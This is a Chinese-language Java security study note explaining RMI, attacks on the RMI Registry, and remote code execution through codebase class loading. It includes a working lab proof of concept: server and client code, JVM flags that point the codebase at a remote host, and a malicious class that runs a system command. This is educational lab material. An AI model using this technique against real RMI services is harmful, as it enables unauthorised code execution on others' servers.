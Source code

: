 ```yaml
---
title: "Java安全之RMI"
date: 2022-07-22T10:25:13+08:00
categories: ["notes"]
---
```


# 如何理解RMI

RMI全称是Remote Method Invocation，即远程方法调用，和RPC(Remote Procedure Call)即远程过程调用类似。RMI的作用就是让某个Java虚拟机中的对象调用另外一个Java虚拟机中对象的方法，RMI是Java独有的一种机制。
现在我们模拟一下RMI的过程，编写一个RMI服务端，一个RMI客户端，让客户端去调用服务端上的方法。
RMI服务端：
```java
public class RMIServer {
    public interface IRemoteHelloWorld extends Remote {
        public String hello() throws RemoteException;
    }

    public class RemoteHelloWorld extends UnicastRemoteObject implements IRemoteHelloWorld {
        protected RemoteHelloWorld() throws RemoteException {
            super();
        }

        @Override
        public String hello() throws RemoteException {
            System.out.println("call from");
            return "Hello world";
        }
    }

    private void start() throws Exception {
        RemoteHelloWorld h = new RemoteHelloWorld();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}

# 在这段代码中，我们将一个RemoteHelloWorld对象注册到了’rmi://127.0.0.1:1099/Hello‘，客户端只要去请求这个位置就要调用RemoteHelloWorld对象
```
RMI客户端：
```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        RMIServer.IRemoteHelloWorld hello = (RMIServer.IRemoteHelloWorld)Naming.lookup("rmi://192.168.3.79:1099/Hello");
        String ret = hello.hello();
        System.out.println(ret);
    }
}
```

先运行服务端，在运行客户端：
客户端结果：

![Java004](https://s2.loli.net/2022/07/22/KCxolYe9wTJqcMd.png)

服务端结果：

![Java005](https://s2.loli.net/2022/07/22/xz9dqvaKpsOibn6.png)

从结果来看，客户端只是调用了服务端的方法，服务端将执行结果返回给了客户端，方法的具体执行依然是在服务端。在这个过程有三个部分，1.RMI客户端 2.RMI服务端 3.RMI Registry。RMI Registry就像是一个远程对象注册中心，RMI客户端每次调用具体方法前都会先在RMI Registry中寻找有没有这个远程对象，所以RMI服务端需要将可以被远程调用的对象注册到Registry，才可以被其他的客户端调用。 RMI执行的具体过程大致可以如下图：
![Java006](https://s2.loli.net/2022/07/22/IvipGj17ZsqxKVb.png)

# RMI的安全问题

## 对Registry的攻击

Registry就像是一个后台管理，那我们可以尝试直接访问Registry修改其上已经存在接口对应的对象。大致的攻击过程如下：
```java
# 使用list()列出Registry上绑定的所有接口
String[] s = Naming.list("rmi://192.168.3.79:1099");

# 如探测出如下的接口:
rmi:192.168.3.79:1099/hello
rmi:192.168.3.79:1099/refObj

# 我们直接尝试修改rmi:192.168.3.79:1099/hello绑定的对象，修改为恶意的一个对象
Payload p = new Payload();
Naming.rebind("rmi:192.168.3.79:1099/hello", p);
```
如果这样重新绑定对象成功，那当别人访问rmi:192.168.3.79:1099/hello接口时就会执行我们的恶意对象。但是往往当我们远程执行Naming.rebind()方法时往往会报错，因为Java对远程访问的Registry做了限制，只有来源地址是localhost的时候，才能调用rebind,bind,unbind等方法，所以这种对Registry的攻击方式是不可行的。

## 利用codebase来执行任意代码

在RMI中存在远程加载的场景。可以想象一下这样一个场景，客户端向服务端传送了一些序列化的对象，当服务端接受到这些序列化对象后进行反序列化，但是服务端发现有一个对象在本地没有找到，这是服务端就是去查看客户端传过来的数据中有没有codebase，如果有codebase就会去codebase指定的地址去寻找本地没有的这个对象。大致过程如下图：
![Java007](https://s2.loli.net/2022/07/22/Y397UblXgCIpucS.png)
这样我们就利用用codebase来让服务端执行任意命令，不过codebase的利用也是有条件的：

* 安装并配置了SecurityManager
* Java版本低于7u21、6u45，或者设置了Java.rmi.server.useCodebaseOnly=false。在7u21、6u45版本之前，Java.rmi.server.useCodebaseOnly的默认值为false，当Java.rmi.server.useCodebaseOnly=true时，Java虚拟机只信任预先配置好的codebase，不再支持从RMI请求中获取。

现在我们来实践一下，编写一个客户端，一个服务端，准备一台远程服务器，让服务端执行远程服务器上的恶意类。
服务端：
```java
public class RemoteRMIServer {
    private void start() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("refObj", h);
        System.out.println("RMI运作中");
    }

    public static void main(String[] args) throws Exception {
        new RemoteRMIServer().start();
    }
}

# 服务端运行时要配置参数：-Djava.security.policy=server.policy -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.hostname=192.168.3.79
```
如果使用idea，配置运行时参数在这里：
![Java008](https://s2.loli.net/2022/07/22/zT1SmPdyBsCt4wv.png)
客户端：
```java
public class RMIClient implements Serializable {
    public void lookup() throws Exception {
        if(System.getSecurityManager() == null) {
            System.out.println("setup SecurityManager");
            SecurityManager securityManager = new SecurityManager();
            System.setSecurityManager(securityManager);
        }

        ICalc r = (ICalc) Naming.lookup("rmi://192.168.3.79:1099/refObj");
        List<Integer> li = new Payload();
        li.add(3);
        li.add(4);

        System.out.println(r.sum(li));
    }

    public static void main(String[] args) throws Exception {
        new RMIClient().lookup();
    }
}

# 配置运行时参数：-Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy -Djava.rmi.server.codebase=http://10.10.10.10:6666/
```
恶意类：
```java
public class Payload extends ArrayList<Integer> {
    static {
        try {
            System.out.println(Runtime.getRuntime().exec("whoami"));
            System.out.println("success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
运行结果：
服务端：
![Java009](https://s2.loli.net/2022/07/22/DiHWs2h45Og7BeS.png)
客户端：
![Java010](https://s2.loli.net/2022/07/22/GQlLD3g6dMbBmKJ.png)
服务器：
![Java011](https://s2.loli.net/2022/07/22/yolBUiKsrSJXW72.png)
可以看到客户端和服务端都执行了恶意类中的代码，但是原因是不一样的，服务端执行恶意类是codebase指向的服务器中的代码，而客户端执行的恶意类是因为要在本地实例化恶意类对象时执行的。从服务器中我们也发现了一条请求，这条请求就是服务端发起的。
# 参考文档
phith0n的Java安全漫谈
